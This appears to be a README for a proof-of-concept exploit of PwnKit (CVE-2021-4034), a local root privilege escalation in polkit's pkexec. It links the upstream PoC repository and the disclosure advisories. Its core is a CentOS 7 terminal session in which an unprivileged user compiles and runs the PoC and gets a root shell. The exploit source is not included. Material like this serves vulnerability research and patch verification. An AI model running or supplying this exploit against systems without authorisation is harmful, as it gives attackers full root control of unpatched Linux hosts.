# CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://github.com/arthepsy/CVE-2021-4034
https://seclists.org/oss-sec/2022/q1/80  
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

# PoC

```
[user@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[user@centos ~]$ id
uid=1005(sqs) gid=1005(sqs) 组=1005(sqs)
[user@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[user@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),1005(sqs)
sh-4.2# exit
```

